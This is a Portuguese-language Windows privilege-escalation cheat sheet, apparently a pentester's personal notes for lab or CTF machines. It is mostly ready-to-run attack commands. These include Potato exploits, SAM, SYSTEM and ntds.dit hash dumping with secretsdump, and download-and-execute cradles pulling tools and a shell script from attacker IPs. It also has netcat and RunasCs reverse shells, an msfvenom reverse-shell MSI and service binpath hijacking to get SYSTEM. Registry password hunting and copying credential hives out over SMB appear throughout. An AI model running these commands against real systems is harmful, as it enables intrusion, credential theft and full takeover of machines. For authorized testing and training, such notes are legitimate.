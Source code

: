 # Windows PrivEsc

## Checklist

- [ ] [**Permissão do usuário**](#permissao-de-usuario)
- [ ] [**Navegar nos diretórios do usuário**](#navegacao-diretorios)
- [ ] [**WinPeas e PowerUp**](#winpeas-e-powerup)
- [ ] [**Senhas salvas no registro**](#credenciais-no-registro)
- [ ] [**Enumerar serviços locais/restritos**](#enumeracao-de-servicos)
- [ ] [**Enumerar scheduled tasks/tarefas agendadas**](#scheduled-tasks)
- [ ] [**Versão de kernel**](#versao-de-kernel)
- [ ] [**Reutilização de credenciais já obtidas**](#reuso-de-senha)
- [ ] [**Explorando Unquoted Service Path**](#unquoted-service-path)
- [ ] [**Enumeração de processos da máquina**](#enumeracao-de-processos)
- [ ] [**AlwaysInstallElevated**](#alwaysinstallelevated)
- [ ] [**Credenciais em cache**](#credenciais-em-cache)
9. Ja peguei cenarios em que uma maquina virtual estava instalada na maquina e foi possivel obter credenciais no historico desta mesma maquina
11. Enumerar os discos da máquina e procurar por senhas ou arquivos sensíveis dentro destes.
21. Weak service permissions

Depois considerar esse link para verifcar uma ferramenta para obtenção de credencais em processos como firefox chrome e afins...

https://github.com/putterpanda/mimikittenz

<details markdown="1"><summary markdown="1">
## Permissão de usuário
</summary>

Aqui estamos a procura de permissões tais como:

SeImpersonate
SeDebug
SeBackup

Existem outros que podem ser explorados também, porém esses são o suficiente por enquanto:

**SeImpersonate**

```
whoami /priv
```

Aqui vale considerar os exploits Potatoes:

```
PrintSpoofer32.exe -i -c powershell
```

O exploit abaixo tem que considerar as portas abertas no firewall para ele funcionar adequadamente:

```
./jp.exe -t * -p c:\temp\s.bat [-l porta]
```
```
whoami /priv

SeImpersonate

PrintSpoofer32.exe -i -c powershell

JuicyPotato.exe -t * -p shell.bat -l 4444

jp.exe -t * -p shell.bat -l 4444

whoami /all

SE IMPERSONATE
```

**LEMBRAR DE QUE AS PORTAS UTILIZADAS NO COMANDO DEVEM ESTAR LIBERADAS NO FIREWALL.**

Esse juicyPotato que funcionou é o que se encontra neste link:

[https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip](https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip)

**SeBackup**

Aqui podemos fazer uma cópia dos arquivos system e sam para a máquina do atacante para quebrar os hashes de senha ou utilizá-los para fazer os ataques pass the hash:
```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Fazer um arquivo com o seguinte conteúdo:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```
Antes de transferir o arquivo para a máquina alvo, precisamos fazer uma conversão para ficar tudo ok:

    unix2dos test.dsh

Se atentar somente ao diretório direitinho no qual se está operando: Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

```
diskshadow /s test.dsh
robocopy /b z:\windows\ntds . ntds.dit
reg save hklm\system c:\Temp\system
```

Já na máquina do atacante, podemos executar o seguinte:

    impacket-secretsdump -ntds ntds.dit -system system local

</details>

<details markdown="1"><summary markdown="1">
## Navegação diretórios
</summary>

 Navegar nos diretorios do usuario para ver se existe algo ali que possa nos fornecer uma credencial ou algum bionario que inicie um servico/programa vulneravel a escalacao de privilegio

cmd

```
dir /s /b /a:-d-h \Users\usuario | findstr /i /v "appdata"
```
Mais abrangente:
```
cd c:\users
dir /s
```
Powershell
```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```
Procurar por arquivos específicos
```
cd c:\users
cgi -recurse
```
Procurar por arquivos específicos
```
gci -recurse -filter <file_name> [-Path]
```
Procurar por programas instalados que sejam exploráveis
```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```
Exemplos:

![qownnotes-media-PvAXBV](../../../media/qownnotes-media-PvAXBV.png)

Exemplos que não são exploráveis:

![qownnotes-media-QpQnUo](../../../media/qownnotes-media-QpQnUo.png)

![qownnotes-media-vflhHT](../../../media/qownnotes-media-vflhHT.png)

</details>

<details markdown="1"><summary markdown="1">
## Winpeas e PowerUp
</summary>

Rodar um scan automatizado. Lembrando que esses scans são pegos por antivírus, então a abordagem manual sempre é mais interessantes em pentests de produção.
Verificar se existe algum servico disponivel para exploracao com permissoes demais. Aqui temos que usar o accesschk.

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/winPEASx64.exe', 'c:\temp\w.exe')
./w.exe
```

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/PowerUp.ps1', 'c:\temp\p.ps1')
. ./p.ps1]
invoke-allchecks
```
</details>

<details markdown="1"><summary markdown="1">
## Credenciais no registro
</summary>
```
reg query HKLM /f *password* /t REG_SZ /s

reg query HKLM /f teamviewer /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s
```

### Autologon

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

reg query HKLM\SOFTWARE\Wow6432Node\TeamViewer\Version7 /v SecurityPasswordAES

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName   

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword   
```
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de Serviços
</summary>

Checar os servicos que estao rodando na maquina para ver se temos permissao de alteracao em algum deles

A presença de interfaces virtuais pode aferir a ideia de existir máquinas virtuais na máquina ou de anti vírus instalado

Esse comando enumera as conexões e portas abertas, pelas quais são fornecidos os serviços de rede tais como banco de dados, aplicações web e/ou serviços que estajam vulneráveis a algum tipo de exploit público, por exemplo .
Pesquisando a respeito do serviço, podemos encontrar fragilidades que podemos explorar para escalar privilégios na máquina. Mas, claro, sempre visando serviços que rodam em modo system (que é nosso alvo)

    netstat -ano

O comando abaixo exige privilégio administrativo

    netstat -anb

Enumerando as interfaces de rede

    ipconfig /all
    route print

### Weak service permissions

![qownnotes-media-jCADRm](../../../media/qownnotes-media-jCADRm.png)

![qownnotes-media-Yhpwrk](../../../media/qownnotes-media-Yhpwrk.png)

    ./accesschk.exe -ucwqv UsoSvc /accepteula
    
    ./accesschk.exe -ucwqv <servicename> /accepteula

Com esse comando, verificamos que estamos no grupo NTAUTHORITY/SERVICE
    
    whoami /all

![qownnotes-media-zdSaRr](../../../media/qownnotes-media-zdSaRr.png)

    sc.exe config usosvc binpath="C:\temp\revshell.exe"

![qownnotes-media-QfiKZv](../../../media/qownnotes-media-QfiKZv.png)

    net stop usosvc
    net start usosvc
</details>

<details markdown="1"><summary markdown="1">
## Scheduled Tasks
</summary>


```
schtasks /query /fo LIST /v

schtasks /query /fo LIST /v > schtasks.txt
copy schtasks.txt \\10.10.14.17\smb\scht.txt

dos2unix scht.txt
cat scht.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

![qownnotes-media-MkSFLk](../../../media/qownnotes-media-MkSFLk.png)

![qownnotes-media-eaAziX](../../../media/qownnotes-media-eaAziX.png)

![qownnotes-media-aeBsJo](../../../media/qownnotes-media-aeBsJo.png)

![qownnotes-media-bOauze](../../../media/qownnotes-media-bOauze.png)

Usando accesschk.exe

```
accesschk.exe /accepteula -quvw <username> <filename>
```

![qownnotes-media-JfEeCP](../../../media/qownnotes-media-JfEeCP.png)
</details>

<details markdown="1"><summary markdown="1">
## Versão de kernel
</summary>
https://github.com/SecWiki/windows-kernel-exploits

    Winver 
ou

    systeminfo

ou

    ver
```
systeminfo > si.txt
copy si.txt \\10.10.14.17\smb\si.txt
```

Na máquina do atacante podemos utilizar o Windows Exploit suggester (wes):

### Windows Exploit Suggester

```
pip install wesng

sudo ln -s /home/acosta/.local/bin/wes /usr/bin/wes

wes --update
dos2unix si.txt
wes si.txt
```

**Não menos importante, podemos fazer pesquisas no google também**

</details>

<details markdown="1"><summary markdown="1">
## Reuso de senha
</summary>
```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred
```

Outra opção seria:

```
$username = "arkham\batman"
$password = "Zx^#QZX+T!123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
new-pssession -computername . -credential $cred
```
Ainda outra opção seria com runas:

```
runas /user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
```
Existe um runas compilado que pode ser encontrado em:
https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

```
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> cmd
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> powershell
```
</details>

<details markdown="1"><summary markdown="1">
## Unquoted Service Path
</summary>
cmd

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
Podemos utilizar uma abordagem com o registro do Windows também:

    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\

Para ter um pouco mais de precisão, podemos utilizar findstr:

    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ | findstr "<nome_do_serviço>"


Powershell

```
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de processos
</summary>
```
get-process
wmic process
tasklist
tasklist /svc
tasklist /v /fi "username eq system"
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

    Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

</details>
<details markdown="1"><summary markdown="1">
## AlwaysInstallElevated
</summary>
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_Atacante> LPORT=<Porta> -a x64 --platform Windows -f msi -o bin.msi
```

Baixar para a máquina da vítima o ".msi"

    msi /i bin.msi
</details>

<details markdown="1"><summary markdown="1">
## Credenciais em cache
</summary>
```
cmdkey /list
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```
</details>

## ATENTIONPOINTS

Aqui um ponto de atenção é que, caso não encontre nada na máquina, vale considerar que o serviço pelo qual entramos (geralmente web app), pode fornecer um ponto de entrada para a escalação de priilégio por meio da aplicação que está rodando no contexto system. às vezes a verificação ocorre por tentiva e erro mesmo.

Detalhe que daqui em diante, as enumerações são todas vistas nos processos automatizados. Então é bom não deixar de verificar este último ponto e um double check manual mesmo.






## Find all weak file permissions per drive.

```
(new-object net.webclient).downloadfile('http://10.10.14.17/4-privilege%20escalation/accesschk64.exe', 'c:\temp\a.exe')

.\a.exe -uwqs -accepteula Users c:\*.*
.\a.exe -uwqs -accepteula "Authenticated Users" c:\*.*

Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

Full name

```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uws "Everyone" "C:\Program Files"
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

## Binary planting

```
sc config [service_name] binpath= "C:\temp\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```

Uma vez obtido system na máquina, é possível extrair a SAM da seguinte maneira:

por meio dos registros:

Na máquina vítima

```
reg save HKLM\SAM \\10.10.14.11\smb\sam
reg save HKLM\SYSTEM \\10.10.14.11\smb\system
```

Na máquina atacante:

```
impacket-secretsdump -sam sam -system system local
```

Acessando diretamente a o hard drive da máquina:

```
sudo guestmount --add '/tmp/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro -v /mnt/vhd

cp vhd/Windows/System32/config/SAM /home/acosta/Downloads
cp vhd/Windows/System32/config/SYSTEM /home/acosta/Downloads
impacket-secretsdump -sam SAM -system SYSTEM local
```

ou até mesmo fazendo o port forwarding


## Enumerate device drivers

```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object Display Name, Start Mode, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```
```
wmic logicaldisk get deviceid, volumename, description

#powershelll
powershell -c get-psdrive -psprovider filesystem

mountvol
```
Depois de enumerar, eh interessante montarmos o volume pra verificar se temos algo.

mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\

    mountvol

Depois dee enumerar, eh interessante montarmos o volume pra verificar se temos algo.

    mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\


## firwewall rules enumeration

    netsh advfirewall show currentprofile
    
    netsh advfirewall firewall show rule name=all
    
     Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name


## PasswordEnumeration

    findstr /si password *.doc *.txt *.ini *.config
    
    gci -recurse -filter passwd*
    
    dir /s *pass* == *cred* == *ssh* == *.config*
    
    reg query HKLM /f *password* /t REG_SZ /s
    
    reg query HKLM /f teamviewer /t REG_SZ /s
    
    reg query HKCU /f password /t REG_SZ /s
    
    
    Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
    
    driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
    
    Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName,DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
 
## Writable files
 
     Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
